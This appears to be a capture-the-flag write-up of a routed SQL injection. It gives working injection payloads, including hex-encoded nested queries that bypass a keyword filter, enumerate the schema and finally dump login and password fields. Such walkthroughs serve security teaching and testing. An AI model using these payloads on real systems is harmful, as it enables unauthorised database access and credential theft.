




## Recon

First, we fuzz the Search function with this payload:
```
login=admin'
```
It returns an error message:


Using comment syntax:
```
login=admin'-- -
```


This means the Search function is vulnerable to SQL injection.

The server blocks and filters keywords such as `order by` and `or`, but `union` is **not** filtered:
```
login=a'union select 1-- -
```
Normally this would return an error, but here it returns the information of id 1 instead:


So we can assume the output of this query is fed into a second query — in other words, this is a routed injection.

The backend logic may looks like this:

```sql
-- Query 1: where we inject (via `login`)
SELECT id FROM users WHERE login = '[input]';

-- Query 2: uses Query 1's result to fetch what's displayed
SELECT login, email FROM users WHERE id = [result of Query 1];

When we send `a' union select 1-- -`, Query 1 returns `1` (we control its output via UNION), and Query 2 then runs `... WHERE id = 1`, showing user 1's data.

Next, we try to find the number of columns with `order by`. Since that keyword is filtered, we hex-encode the payload to bypass the filter:
```
login=a'union select 0x276F7264657220627920332D2D202D-- -
```
`276F7264657220627920332D2D202D` = `'order by 3-- -`

The server returns `Unknown column '3' in 'order clause'`, which means there are **2 columns**.

Next, we check which columns are visible in the output:
```
login=a'union select 0x27756E696F6E2073656C65637420312C322D2D202D-- -
```


Both columns are reflected.

We then retrieve the table name:
```
login=a'union select 0x27756E696F6E2073656C65637420312C207461626C655F6E616D652066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D613D646174616261736528292D2D202D-- -
```
The `email` field shows `users`, so `table_name = users`.

Then we enumerate the column names:
```
login=a'union select 0x27756E696F6E2073656C65637420312C2067726F75705F636F6E63617428636F6C756D6E5F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73207768657265207461626C655F736368656D613D646174616261736528292D2D202D-- -
```
This returns `email, id, login, password`. The final payload to dump the credentials is:
```
login=a'union select 0x27756E696F6E2073656C656374206C6F67696E2C2070617373776F72642066726F6D2075736572732D2D202D-- -
```